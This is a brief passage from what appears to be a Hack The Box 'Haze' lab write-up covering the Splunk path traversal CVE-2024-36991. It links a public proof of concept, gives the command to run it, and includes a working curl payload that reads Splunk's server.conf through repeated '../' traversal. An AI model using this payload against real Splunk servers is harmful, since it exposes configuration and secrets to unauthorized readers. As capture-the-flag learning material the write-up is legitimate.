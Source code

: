 [](https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads)

There was a POC exploit

[https://github.com/bigb0x/CVE-2024-36991](https://github.com/bigb0x/CVE-2024-36991)

### What Is It?

- **CVE‑2024‑36991** is a **path traversal vulnerability** found in **Splunk Enterprise** running on **Windows**.
- The flaw, located in the `/modules/messaging/` endpoint with **Splunk Web enabled**, lets **unauthenticated attackers** exploit the way Splunk processes file paths. Because of how Python’s `os.path.join` works, attackers can bypass restrictions and peek into files they shouldn’t access — such as sensitive system files.

```bash
python3 CVE-2024-26991.py -u http://haze.htb:8000
```

![Screenshot 2025-03-31 at 8.08.04 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.08.04_PM.png)

Reads the Splunk server configuration file (server.conf) using path traversal

```bash
curl -k "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/system/local/server.conf"
```
